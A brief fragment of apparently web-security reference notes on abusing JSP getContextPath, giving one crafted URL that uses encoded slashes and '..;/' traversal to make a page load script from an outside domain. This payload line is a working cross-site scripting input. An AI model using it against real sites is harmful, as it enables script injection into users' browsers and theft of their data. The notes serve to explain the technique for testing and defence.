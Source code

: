 
JSP
 getContextPath abuse

Info from here.

 http://127.0.0.1:8080/&sol;rakeshmane.com/xss.js&num;/..;/..;/contextPathExample/test.jsp

Accessing that web you may change all the links to request the information to rakeshmane.com:


